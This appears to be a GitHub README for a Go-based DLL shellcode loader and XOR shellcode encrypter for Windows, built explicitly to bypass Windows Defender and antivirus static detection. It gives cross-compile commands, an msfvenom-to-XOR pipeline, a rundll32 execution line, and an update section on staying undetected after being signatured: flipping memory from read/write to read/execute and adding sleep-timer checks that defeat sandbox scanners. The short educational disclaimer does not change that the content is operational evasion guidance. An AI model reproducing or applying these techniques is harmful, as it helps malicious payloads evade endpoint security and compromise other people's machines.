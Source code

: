 # DLL Shellcode Loader & Shellcode Encryption

This project demonstrates the creation of a DLL shellcode loader in Golang tailored for Windows environments, aiming to bypass specific security measures, particularly Windows Defender  Moreover, it explores a technique to encrypt shellcode using XOR encryption, making it more elusive to AV static detection.

## UPDATES:
04/01/2024 - Detected and signatured by defender
04/01/2024 - To not get picked up by Defender update the code with the following:
    - Initially allocate memory with read/write permissions
    - Write the shellcode into the allocated memory
    - Change the memory permissions to read/execute using VirtualProtect API
    - I also suggest adding a timer check to compare the start of the sleep to the current system time and once its finished compare the the system time to make sure the full time has passed and if not then simply exit (Scanner will fast forward through sleep timers)
        

# Full walkthrough
### <a href="https://krptyk.com/2023/09/20/encrypting-shellcode-to-evade-av/" target="_blank">Encrypting Shellcode to Evade AV</a>

### <a href="https://krptyk.com/2023/09/20/dll-shellcode-loader-bypass-defender/" target="_blank">DLL Shellcode Loader in Go</a>


## Disclaimer

The tutorials and code shared through this project are for educational purposes only. Misuse of this information and code for malicious activities is unlawful and unethical. The creators take no responsibility for any misuse.

## Getting Started

### Environment Setup

- Development Environment: Kali Linux
- Target Environment: Windows with AMD64 architecture

Compile command for building the loader:


    CC=x86_64-w64-mingw32-gcc GOOS=windows GOARCH=amd64 CGO_ENABLED=1 go build -buildmode=c-shared -o bypassdll.dll KrptGoLoader.go


## Dependencies

For the DLL Shellcode Loader:

    package main
    
    // #cgo windows CFLAGS: -D_WIN32
    // #cgo windows LDFLAGS: -lntdll
    // #include <windows.h>
    // #include <stdlib.h>
    import "C"
    
    import (
        "fmt"
        "syscall"
        "time"
        "unsafe"
    )

For the XOR Encryption of Shellcode:

    package main
    import (
      "flag"
      "fmt"
      "io/ioutil"
      "os"
    )

## Creating the DLL Shellcode Loader

  Compilation Environment: Use Kali Linux as the development environment. The compile command utilizes the mingw-w64 GCC compiler targeting a Windows OS with an AMD64 architecture. It is built as a shared library with output as bypassdll.dll¹.

  Importing Necessary Packages: Import the necessary packages and libraries to facilitate the loader’s functionalities. The Windows and standard library headers are imported in the C space, while in Go, formats, system calls, time, and unsafe packages are imported to work with low-level memory and system services¹.

## Encrypting the Shellcode

  XOR Encryption for Shellcode Obfuscation: XOR encryption is a simple and effective technique for encrypting shellcode, aiding in the evasion of AV static detection².

  Creating the Go Code: The Go program is designed to take raw binary data as input, perform an XOR operation on it, and produce encrypted shellcode as output².

## Usage

  ### KrptXOR.go
    msfvenom -p windows/x64/exec CMD=calc -f raw 2>/dev/null | go run GoXOR.go -t go -x 31 >> shellcode.txt

  ### KrptLoader.go
    CC=x86_64-w64-mingw32-gcc GOOS=windows GOARCH=amd64 CGO_ENABLED=1 go build -buildmode=c-shared -o bypassdll.dll bypassdll.go
    C:\>Rundll32.exe .\KrptLoader.dll,ExecuteShellcode
    
